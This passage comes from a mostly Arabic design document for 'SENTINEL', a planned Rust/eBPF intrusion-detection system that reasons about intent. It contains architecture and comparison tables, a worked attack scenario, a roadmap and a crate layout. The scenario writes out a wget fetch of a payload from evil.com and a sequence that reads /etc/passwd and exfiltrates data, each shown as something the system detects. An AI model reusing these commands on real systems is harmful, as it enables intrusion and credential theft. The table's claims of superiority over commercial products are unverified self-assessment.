│ L2     │ CIG Building      │ G = (V, E, φ, ψ, κ)                    │ Intent + Counterfactual    │
│        │                   │ ψ = P(do) · σ(decay + semantic)        │ per node                   │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L3     │ Neuro-Symbolic    │ h_v = σ(W · AGG_causal({h_u}))        │ Causal-Aware AGG +         │
│        │                   │ + Do-Calculus + Axiom Embedding        │ Constraint Embedding       │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L4     │ Intent Inference  │ I(v) = argmax P(i|chain) · 𝟙[¬axiom]  │ Hard constraints +         │
│        │                   │ + Hierarchical C2F                      │ Coarse-to-Fine             │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L5     │ Counterfactual    │ CF(Y|do(¬X)) = Σ P(Y|X=0,Z) · P(Z|X=1)│ Lazy CF (9% only)          │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L6     │ Causal Tattoos    │ TattooScore = ∫ψ·e^(-λΔt) + Σ S·δ(t)  │ Tattoo chain =             │
│        │                   │                                        │ blockchain سببي             │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L7     │ Deception         │ reward = ΔH(intent)                    │ In-kernel deception +      │
│        │                   │ π(a|s) = RL policy                     │ RL agent                   │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L8     │ Immutable Anchor  │ Drift(θ,T) = mean(𝟙[f(x)≠y])         │ خارج النموذج =             │
│        │                   │ V_grad = ||θ_t - θ_{t-Δ}||/Δ          │ يحل مشكلة Gödel            │
├────────┼───────────────────┼──────────────────────────────────────────┼────────────────────────────┤
│ L9     │ Decision Engine   │ Decision tree + causal chain output    │ كل قرار مُعلَّل            │
└────────┴───────────────────┴──────────────────────────────────────────┴────────────────────────────┘
```

## جدول 3 — مقارنة نظرية لنماذج السببية

```
┌──────────────────────┬────────────┬────────────┬──────────────┬─────────────────┐
│ المقياس              │ Bayesian   │ Granger    │ Pearl        │ SENTINEL        │
│                      │ Network    │ Causality  │ Do-Calculus  │ Causal          │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Confounders          │ ⚠️         │ ❌         │ ✅           │ ✅              │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Interventions do(X)  │ ❌         │ ❌         │ ✅           │ ✅              │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Counterfactuals      │ ❌         │ ❌         │ ✅           │ ✅              │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Dynamic graphs       │ ❌         │ ⚠️        │ ❌           │ ✅              │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Neural integration   │ ⚠️         │ ❌         │ ⚠️          │ ✅ Neuro-Symb   │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Real-time            │ ⚠️         │ ❌         │ ❌           │ ✅ Rust+eBPF    │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Hard constraints     │ ❌         │ ❌         │ ⚠️          │ ✅ Axiom Layer  │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Long-term memory     │ ❌         │ ⚠️        │ ❌           │ ✅ Tattoo Chain │
├──────────────────────┼────────────┼────────────┼──────────────┼─────────────────┤
│ Self-monitoring      │ ❌         │ ❌         │ ❌           │ ✅ Anchor       │
└──────────────────────┴────────────┴────────────┴──────────────┴─────────────────┘
```

## جدول 4 — مقارنة مع أنظمة صناعية

```
┌──────────────────────┬────────────┬────────────┬────────────┬──────────┬─────────────┐
│ المعيار              │ Darktrace  │ Vectra AI  │ CrowdStrike│KAIROS/   │ SENTINEL    │
│                      │            │            │            │FLASH     │             │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ نموذج الكشف          │ Anomaly ML │ Behavioral │ Sigs+ML   │ GNN      │ Causal      │
│                      │            │            │            │          │ Intent      │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ مقاومة Mimicry       │ ❌ ضعيفة  │ ⚠️ متوسطة │ ❌ ضعيفة  │ ⚠️ جزئية│ ✅ مناعة    │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ كشف APT النائم      │ ❌         │ ❌         │ ⚠️         │ ❌       │ ✅ Tattoos  │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ False Positives      │ ❌ عالية   │ ⚠️ متوسطة │ ⚠️ متوسطة │ ✅ قليلة │ ✅ قليلة    │
│                      │            │            │            │          │ جداً        │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ Deception Layer      │ ❌         │ ❌         │ ❌         │ ❌       │ ✅ Zero-lat │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ يراقب نفسه           │ ❌         │ ❌         │ ❌         │ ❌       │ ✅ Anchor   │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ مصدر البيانات        │ Network    │ Net+Cloud  │ Endpoint   │ Audit    │ eBPF kernel │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ Latency              │ ثوانٍ     │ ثوانٍ     │ ثوانٍ     │ دقائق   │ μs          │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ يحتاج GPU            │ Cloud     │ Cloud      │ ✅ لا      │ ❌ نعم   │ ✅ لا       │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ Open Source           │ ❌ مغلق   │ ❌ مغلق   │ ❌ مغلق   │ ✅ أكاد  │ ✅ Core     │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ يتذكر بعد reboot     │ ❌         │ ❌         │ ⚠️         │ ❌       │ ✅          │
├──────────────────────┼────────────┼────────────┼────────────┼──────────┼─────────────┤
│ التقييم ($)           │ $5.3B     │ $1B+       │ $80B+      │ أكاديمي │ $0→فرصة     │
└──────────────────────┴────────────┴────────────┴────────────┴──────────┴─────────────┘
```

---

# 15. التدفق الكامل — من Syscall إلى قرار

## 15.1 مخطط التدفق الكامل



## 15.2 مثال عملي — هجوم كامل

```
┌─────────────────────────────────────────────────────────────────────┐
│  سيناريو: مهاجم يخترق خادم web عبر vulnerability في PHP            │
├─────────────────────────────────────────────────────────────────────┤
│                                                                     │
│  t=0ms    الأحداث:                                                  │
│  ────────                                                           │
│  php-fpm → exec(bash -c "wget http://evil.com/payload.sh")         │
│                                                                     │
│  L0 — Axoid Enforcer:                                              │
│    AXIOM_001: web_server ≠ spawn(shell) → ❌ VIOLATION!            │
│    القرار: KILL فوراً ← 200ns                                      │
│    ⚡ الهجوم مات قبل أن يبدأ                                       │
│                                                                     │
│  ──────────────────────────────────────────────────────────────── │
│                                                                     │
│  سيناريو بديل — المهاجم أذكى:                                      │
│                                                                     │
│  t=0ms    php-fpm → write(/tmp/.hidden_script, payload)            │
│  t=1ms    php-fpm → exec(/tmp/.hidden_script)                      │
│  t=5ms    .hidden_script → read(/etc/passwd)                       │
│  t=10ms   .hidden_script → connect(45.33.32.156:443)               │
│  t=15ms   .hidden_script → send(encrypted_data)                    │
│                                                                     │
│  L0: لا axiom violation مباشر (كتابة ملف في /tmp عادية)            │
│  L0: Tattoo Writer → وشم على php-fpm و .hidden_script             │
│                                                                     │
│  L1: Causal Triples:                                                │
│  τ₁ = (php-fpm, write, /tmp/.hidden, t=0, {parent=nginx,uid=www}) │
│  τ₂ = (php-fpm, exec, /tmp/.hidden, t=1, {parent=nginx,uid=www}) │
│  τ₃ = (.hidden, read, /etc/passwd, t=5, {parent=php-fpm,uid=www})│
│  τ₄ = (.hidden, connect, 45.33.32.156, t=10, {parent=...,uid=www})│
│  τ₅ = (.hidden, send, encrypted, t=15, {parent=...,uid=www})      │
│                                                                     │
│  L2: CIG Building:                                                  │
│  ψ(php→write)    = 0.6 × σ(0.9 - 0.3) = 0.42  ← مشبوه             │
│  ψ(php→exec)     = 0.8 × σ(0.9 - 0.8) = 0.42  ← مشبوه             │
│  ψ(hidden→passwd) = 0.9 × σ(0.9 - 0.5) = 0.57 ← مشبوه أكثر       │
│  ψ(hidden→connect)= 0.95× σ(0.9 + 0.1) = 0.71 ← خطير             │
│  ψ(hidden→send)   = 0.99× σ(0.9 + 0.2) = 0.76 ← خطير جداً        │
│                                                                     │
│  L3: GNN + Causal Attention:                                        │
│  Head 1 (Causal): يركّز على chain: php→exec→read→connect→send     │
│  Head 3 (Axiom): downloaded file يقرأ passwd → suspicious          │
│  Head 4 (CF): إزالة connect لا تلغي read ← قراءة مستقلة           │
│                                                                     │
│  L4: Intent Inference:                                              │
│  Coarse: P(malicious) = 0.94 → ليس > 0.99 → continue              │
│  Fine: P(exfil) = 0.72, P(recon) = 0.15, P(persist) = 0.08        │
│  Entropy: H = 1.23 → MEDIUM → Deep Reasoning                      │
│                                                                     │
│  L5: Counterfactual:                                                │
│  CF(send | do(¬exec_hidden)) ≈ 0 ← exec هو السبب!                 │
│  CF(send | do(¬read_passwd)) ≈ 0 ← passwd هو الهدف!               │
│  CF(send | do(¬connect)) ≈ 0    ← connection ضرورية               │
│                                                                     │
│  ← كل الحلقات ضرورية سببياً = REAL ATTACK                         │
│                                                                     │
│  L9: Decision:                                                      │
│  {                                                                  │
│    action: KILL,                                                    │
│    confidence: 0.97,                                                │
│    reasoning: "php-fpm wrote and executed hidden script which      │
│      read credentials and exfiltrated via encrypted channel.       │
│      Full causal chain confirmed by counterfactual analysis.       │
│      No benign explanation exists.",                               │
│    latency: 23ms total                                             │
│  }                                                                  │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

---

# 16. خارطة التنفيذ التقنية

## 16.1 المراحل الأربع

```
┌─────────────────────────────────────────────────────────────────────┐
│                                                                     │
│  المرحلة 1 (3-4 أشهر) — إثبات المفهوم                              │
│  ═══════════════════════════════════                                │
│  ✦ sentinel-ebpf: eBPF collector مع Causal Compression              │
│  ✦ sentinel-cig: CIG builder مع ψ(e) الأساسي                       │
│  ✦ sentinel-userspace: daemon بـ tokio                               │
│  ✦ Rule-based Intent Reasoner (بدون GNN بعد)                        │
│  ✦ الهدف: إثبات أن السؤال عن النية أفضل من الشذوذ                   │
│                                                                     │
│  المرحلة 2 (3-4 أشهر) — الذكاء والذاكرة                            │
│  ═══════════════════════════════════════                              │
│  ✦ sentinel-gnn: GNN + Causal Attention                              │
│  ✦ sentinel-symbolic: Do-Calculus engine                             │
│  ✦ sentinel-tattoo: Tattoo chain + Hybrid Storage                    │
│  ✦ Resurrection Protocol                                            │
│  ✦ الهدف: نظام يتذكر بعد reboot ويكشف APT النائم                   │
│                                                                     │
│  المرحلة 3 (2-3 أشهر) — الصيد والمراقبة الذاتية                    │
│  ═════════════════════════════════════════════                        │
│  ✦ sentinel-deception: Zero-Latency Deception + RL Agent            │
│  ✦ sentinel-anchor: Immutable Monitor                                │
│  ✦ Counterfactual Engine                                            │
│  ✦ الهدف: نظام كامل يصطاد المهاجم ويراقب نفسه                      │
│                                                                     │
│  المرحلة 4 (مستمرة) — النشر والتسويق                                │
│  ═══════════════════════════════════════                              │
│  ✦ ورقة بحثية (USENIX Security / IEEE S&P)                          │
│  ✦ GitHub OSS launch                                                 │
│  ✦ تقييم على DARPA TC E3/E5                                         │
│  ✦ B2B SaaS / Acquisition                                           │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

## 16.2 Cargo Workspace Structure

```
sentinel/
├── Cargo.toml                    # workspace manifest
├── sentinel-ebpf/                # L0: eBPF programs (kernel space)
│   ├── src/
│   │   ├── main.rs              # eBPF program entry points
│   │   ├── compressor.rs        # Causal Compressor
│   │   ├── axiom_enforcer.rs    # L0 Axiom Enforcer
│   │   ├── tattoo_writer.rs     # Kernel Tattoo Writer
│   │   └── deception.rs         # bpf_override_return hooks
│   └── Cargo.toml
├── sentinel-userspace/           # Main daemon
│   ├── src/
│   │   ├── main.rs              # tokio runtime + ring buffer reader
│   │   ├── config.rs            # Configuration
│   │   └── ipc.rs               # Inter-component communication
│   └── Cargo.toml
├── sentinel-cig/                 # L1-L2: Causal Intent Graph
│   ├── src/
│   │   ├── lib.rs               # CIG builder
│   │   ├── triple.rs            # Causal Triple definition
│   │   ├── graph.rs             # petgraph-based CIG
│   │   ├── weight.rs            # ψ(e) computation (Gated)
│   │   └── node.rs              # CIG Node structure
│   └── Cargo.toml
├── sentinel-gnn/                 # L3: Neural inference
│   ├── src/
│   │   ├── lib.rs               # GNN model
│   │   ├── attention.rs         # Causal Attention Mechanism
│   │   ├── embedding.rs         # Constraint Embedding
│   │   └── inference.rs         # candle-based inference
│   └── Cargo.toml
├── sentinel-symbolic/            # L3: Symbolic engine
│   ├── src/
│   │   ├── lib.rs               # Do-Calculus engine
│   │   ├── axioms.rs            # Universal + Contextual axioms
│   │   ├── do_calculus.rs       # Front-Door Adjustment
│   │   └── constraints.rs       # Constraint definitions
│   └── Cargo.toml
├── sentinel-tattoo/              # L6: Tattoo chain
│   ├── src/
│   │   ├── lib.rs               # Tattoo management
│   │   ├── chain.rs             # Blockchain-like chain
│   │   ├── storage.rs           # Hybrid: eBPF maps + RocksDB
│   │   ├── resurrection.rs      # Boot protocol
│   │   └── crypto.rs            # ED25519 signing
│   └── Cargo.toml
├── sentinel-deception/           # L7: Deception Fabric
│   ├── src/
│   │   ├── lib.rs               # Deception orchestrator
│   │   ├── rl_agent.rs          # RL policy
│   │   ├── decoy.rs             # Decoy data generation
│   │   └── timing.rs            # Timing normalization
│   └── Cargo.toml
├── sentinel-anchor/              # L8: Immutable Monitor
│   ├── src/
│   │   ├── lib.rs               # Anchor orchestrator
│   │   ├── drift.rs             # Semantic Drift Monitor
│   │   ├── velocity.rs          # Gradient Velocity Monitor
│   │   └── canonical.rs         # Test cases management
│   └── Cargo.toml
├── sentinel-intent/              # L4-L5: Intent + Counterfactual
│   ├── src/
│   │   ├── lib.rs               # Intent Inference Engine
│   │   ├── hierarchy.rs         # Hierarchical Intent Space
│   │   ├── counterfactual.rs    # CF reasoning
│   │   ├── entropy.rs           # Causal Entropy
│   │   └── decision.rs          # Decision Engine (L9)
│   └── Cargo.toml
└── sentinel-cli/                 # CLI + Dashboard
    ├── src/
    │   ├── main.rs              # CLI interface
    │   ├── dashboard.rs         # Terminal dashboard
    │   └── alerts.rs            # Alert management
    └── Cargo.toml
```

---

> **SENTINEL — ليس مجرد IDS**
> *هو نظام يفهم النية.*
>
> *أول نظام يسأل "لماذا؟" بدل "هل هذا شاذ؟"*
> *مبني على Rust + eBPF = microseconds بدون GPU*
> *الذاكرة لا تُمحى — والنموذج لا يُسمَّم — والمهاجم لا يعلم أنه مكشوف*
